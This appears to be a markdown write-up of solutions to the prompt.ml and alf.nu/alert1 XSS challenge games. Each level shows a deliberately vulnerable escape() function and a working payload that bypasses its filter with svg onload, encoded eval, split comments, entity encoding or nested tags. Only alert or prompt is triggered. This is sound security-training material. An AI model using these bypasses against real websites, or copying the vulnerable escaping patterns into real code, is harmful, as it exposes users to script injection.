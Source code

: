# prompt.ml

### 0. Warmup

- Task
 
```
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
} 
```

- Solution

```
"><svg onload=prompt(1)//
```

- HTML source

```
<input type="text" value=""><svg onload=prompt(1)//">
```

### 1. Tag stripping

- Task

```
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}
```

- Solution

```
<svg onload=prompt(1)//
```

- HTML source

```
<article><svg onload=prompt(1)// </article>
```

### 2. Parenthesis-less

- Task

```
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}     
```

- Solution

```
<script>eval.call`${'prompt\x281\x29'}`</script>
```

HTML source

```
<script>eval.call`${'prompt\x281\x29'}`</script>
```

### 7. Splits

Task

```
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}
```

Solution

```
"><script>/*#*/prompt/*#*/(1)/*#*/</script>
```

- HTML source

```
<p class="comment" title=""><script>/*"></p>
<p class="comment" title="*/prompt/*"></p>
<p class="comment" title="*/(1)/*"></p>
<p class="comment" title="*/</script>"></p>
```

# alf.nu/alert1

### 1. Warmup

- Task

```
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```

-Solution

```
",alert(1),"
```

### 2. Adobe

- Task

```
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```

- Solution

```
\");alert(1)//
```

### JSON

- Task

```
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```

- Solution

```
</script><script>alert(1)//
```

### Markdown

- Task

```
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```

- Solution

```
[[x|http://onerror=javascript:alert(1)//]]
```

### Skandia

- Task

```
function escape(s) {
  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```

- Solution

```
</script><img src onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;(1)>
```

### JSON2

- Task

```
function escape(s) {
  s = JSON.stringify(s).replace(/<\/script/gi, '');

  return '<script>console.log(' + s + ');</script>';
}
```

- Solution

```
</scrip</scriptt><script>alert(1)//
```
